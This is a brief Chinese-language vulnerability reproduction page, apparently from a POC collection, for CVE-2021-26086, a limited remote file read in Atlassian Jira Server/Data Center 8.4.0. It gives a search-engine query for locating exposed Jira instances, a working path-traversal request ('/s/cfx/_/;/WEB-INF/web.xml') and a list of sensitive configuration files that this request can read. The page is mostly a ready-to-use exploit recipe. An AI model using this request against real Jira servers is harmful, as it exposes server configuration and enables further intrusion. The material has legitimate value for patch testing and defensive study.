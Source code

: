 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

```
Atlassian Jira Server/Data Center 8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241424642.png)

验证POC

```
/s/cfx/_/;/WEB-INF/web.xml
```

![](./images/202205241424545.png)

可读取敏感配置文件

```
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

